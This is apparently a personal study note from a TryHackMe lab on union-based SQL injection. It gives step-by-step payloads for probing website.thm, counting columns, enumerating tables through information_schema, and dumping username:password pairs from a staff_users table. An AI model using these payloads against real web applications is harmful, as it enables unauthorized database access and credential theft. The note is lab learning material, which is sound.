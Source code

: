 # Determining the number of columns

This is a practice from THM, where we have to determine the number of columns in this website:

<mark style="background-color:orange;">website.thm/article?id=1</mark>

We start with just a ' symbol, if it returns an error it means we could interact with SQL

<figure><img src="../../.gitbook/assets/sql-1 (1).png" alt=""><figcaption></figcaption></figure>

Then, in order to be able to generate commands we first need to detect the number of colums it could be done with the following query:

<mark style="background-color:orange;">UNION select 1,2,3,N (Until it not returns an error)</mark>

<figure><img src="../../.gitbook/assets/sql-22.png" alt=""><figcaption></figcaption></figure>

Once we detect the number of columns, we could start to try to generate the output to the screen to do it, just try to move to ARTICLE 0, and add some SQL commands like "user()" to verify who is running or this ones:

version()= Obtain linux version.

database() = Obtain DB name.&#x20;

The next movement is to determine the number of tables available for this just put the following command:\
<mark style="color:green;background-color:orange;">UNION SELECT 1,2,group\_concat(table\_name) FROM information\_schema.tables WHERE table\_schema = 'sqli\_one'</mark>

Remember: We have obtain the database name from the command database()

<figure><img src="../../.gitbook/assets/sql-11.png" alt=""><figcaption></figcaption></figure>

Now, we have to find some credentials, it could be possible its inside "staff\_users" table, let's type the following command to obtain the columns available

<figure><img src="../../.gitbook/assets/sql-222.png" alt=""><figcaption></figcaption></figure>



Now to obtain the data from username and password use this syntax:

0 UNION SELECT 1,2,group\_concat(username,':',password SEPARATOR '\<br>') FROM staff\_users

test line:

0 UNION SELECT 1,2,group\_concat(username,':',password,':',id SEPARATOR '\<br>') FROM staff\_users

<figure><img src="../../.gitbook/assets/sql-3333.png" alt=""><figcaption></figcaption></figure>
